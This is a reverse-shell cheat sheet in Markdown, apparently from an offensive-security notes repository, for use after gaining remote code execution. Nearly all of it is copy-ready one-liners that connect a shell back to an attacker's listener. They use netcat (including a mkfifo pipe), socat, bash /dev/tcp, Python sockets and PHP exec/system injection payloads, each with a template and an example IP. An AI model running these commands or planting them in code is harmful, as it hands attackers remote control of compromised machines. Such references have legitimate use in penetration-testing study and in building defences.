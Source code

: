 # Reverse Shells

Often during the course of an attack, you may gain RCE, and using it you may want to gain a shell. This is often achieved using a reverse shell

## Netcat

### Setting A Listener

    nc -nvlp [Port]

#### Params

    [Port]: The port to listen for a connection on 

#### Examples

    nc -nlvp 4444

### With -e

Newer versions have a nice option `-e` which allows binding of a process to an nc connection

    nc -e /bin/sh [IP] [Port]

#### Params

    [IP]: The IP address to connect back to with a shell
    [Port]: The port to connect to

#### Examples

    nc -e /bin/sh 192.168.56.101 4444

### Without -e

Older versions of nc don't have the nice `-e` option, so it has to be done slightly differently

    rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc [IP] [Port] >/tmp/f

#### Params

    [IP]: The IP address to connect back to with a shell
    [Port]: The port to connect to

#### Examples

    rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.56.102 4444 >/tmp/f

## Socat

### Setting A Listener

    socat file:`tty`,raw,echo=0 tcp-listen:[Port]

#### Params

    [Port]: The port to listen for a connection on 

#### Examples

    socat file:`tty`,raw,echo=0 tcp-listen:4444

### Simple Full tty

    socat tcp-connect:[IP]:[Port] exec:"bash -li",pty,stderr,setsid,sigint,sane

#### Params

    [IP]: The IP address to connect back to with a shell
    [Port]: The port to connect to

#### Examples

    socat tcp-connect:192.168.54.65:6666 exec:"bash -li",pty,stderr,setsid,sigint,sane

## Bash

### Simple Bash Shell

    bash -i >& /dev/tcp/[IP]/[Port] 0>&1

#### Params

    [IP]: The IP address to connect back to with a shell
    [Port]: The port to connect to

#### Examples

    bash -i >& /dev/tcp/192.168.56.101/4444 0>&1

### Alternative

    echo 'bash -i >& /dev/tcp/[IP]/[PORT] 0>&1' | bash

#### Params

    [IP]: The IP address to connect back to with a shell
    [Port]: The port to connect to

#### Examples

    echo 'bash -i >& /dev/tcp/192.168.212.5/1234 0>&1' | bash

## PHP

### Command Line Based

    php -r '$sock=fsockopen("[IP]",[Port]);exec("/bin/sh -i <&3 >&3 2>&3");'
    
#### Params

    [IP]: The IP address to connect back to with a shell
    [Port]: The port to connect to

#### Examples

    php -r '$sock=fsockopen("192.168.54.98",8888);exec("/bin/sh -i <&3 >&3 2>&3");'

### Code Injection Based

The principle here can be used with any of the command line based reverse shells, in this example netcat is used, the php function can also be changed 

    <?php exec("nc -e /bin/bash [IP] [PORT]"); ?>

#### Params

    [IP]: The IP address to connect back to with a shell
    [Port]: The port to connect to

#### Examples

    <?php exec("nc -e /bin/bash 192.168.56.101 4444"); ?>

    <?php system("bash -i >& /dev/tcp/192.168.56.101/4444 0>&1"); ?>

## Python

### Standard Reverse Shell

    python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("[IP]",[PORT]));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

#### Params

    [IP]: The IP address to connect back to with a shell
    [Port]: The port to connect to

#### Examples

    python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.56.101",2222));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

*Note: Some shells here were sourced or modified from http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet *